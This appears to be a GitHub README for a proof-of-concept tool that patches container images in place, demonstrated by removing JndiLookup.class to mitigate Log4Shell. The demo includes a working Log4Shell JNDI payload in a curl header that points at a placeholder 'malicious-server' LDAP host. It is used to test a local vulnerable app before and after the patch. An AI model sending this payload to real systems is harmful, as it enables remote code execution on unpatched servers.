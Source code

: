 > **WARNING**:
> DO NOT USE FOR PRODUCTION!
> This is a demo / proof of concept.
>
# Patching container images

## Motivation

Container images are meant to be immutable.
Any changes should be done by rebuilding the image.
When faced with a critical vulnerability such as [log4shell](https://en.wikipedia.org/wiki/Log4Shell), one might have very little time to remedy the situation.
In the optimal case there is a fix available and the container image can be easily rebuilt.

But what if:
* The container image is built by someone else and the fix is not available?
* The fixed version of the image is not backwards compatible and requires extensive work to take into use?

### The Idea

There should be a tool that allows applying a workaround by patching an existing container image.
The tool shall address following requirements:

* It shall be unnecessary to rebuild the image and have access to the original source files.
* It shall be possible to apply typical workarounds such as adding files, modifying files, removing files. That also implies it shall be possible to extract files from existing image to be modified.

With these capabilities, it should be possible to do only minimal changes to the original image.
That reduces the risk of breaking the backwards compatibility of the application, while still allowing quick remediation.

## Demo

The mitigation for [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) given by the maintainers ([link](https://logging.apache.org/log4j/2.x/security.html)) is to remove the vulnerable `class` from the impacted `jar` file by running

```
zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
```

### Preparation


First we start by cloning and building an example application with log4j vulnerability


```
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
docker build . -t vulnerable-app:latest
```
Thanks to [@christophetd](https://github.com/christophetd) for making an excellent example application available!

To run the application execute:

```
docker run --rm -p 8080:8080 vulnerable-app:latest
```

To see that the application is vulnerable, make a request with exploit payload and observe from logs from the application, where it tries to connect to the LDAP server.
(you do not need to have a real LDAP server for this)

```
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://malicious-server:1389/}'
```

### Patching the vulnerable image

Clone this repository and compile `image-patcher`

```
make build
```

Use `image-patcher extract-jar` to extract the (suspected) vulnerable files.
It will go through all files in the source image and find `log4j-core` either directly as `jar` file or embedded within another `jar` file.
The command will extract all matching files to the `patch` directory.

```
./image-patcher extract-jar -source-tag vulnerable-app:latest -match 'log4j-core.+\.jar' -dest-dir patch
```

In this case, the `log4j-core` package is within executable `jar`.
Unzip the application to get to the `log4j-core` file

```
unzip -d jar patch/app/spring-boot-application.jar
```

Patch `log4j-core` by removing `JndiLookup.class` from the application `jar`

```
find jar -name 'log4j-core-*' -exec zip -q -d {} org/apache/logging/log4j/core/lookup/JndiLookup.class \;
```

Create a new executable application `jar` and overwrite the vulnerable version with it

```
(cd jar; zip -0 -r ../patched-spring-boot-application.jar .)
mv patched-spring-boot-application.jar patch/app/spring-boot-application.jar
```

Create a new patched container image, with an additional layer.
The contents of the layer is loaded from the `patch` directory

```
./image-patcher patch -source-tag vulnerable-app:latest -dest-tag patched-app:latest -patch-dir patch
```

Run the test again with the patched application and observe that it is not vulnerable anymore

```
docker run --rm -p 8080:8080 patched-app:latest
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://malicious-server:1389/}'
```

Observe that one additional layer was added to the image by `image-patcher patch` command

```
docker image inspect vulnerable-app:latest | tail -15
docker image inspect patched-app:latest | tail -16
```

## Final thoughts

The demo has manual steps for extracting and patching the `jar` file.
These steps could be automated as well.

The demo concentrates on `jar` manipulation for mitigating `log4j` vulnerability.
A general image patching tool could be implemented with support for more use cases.
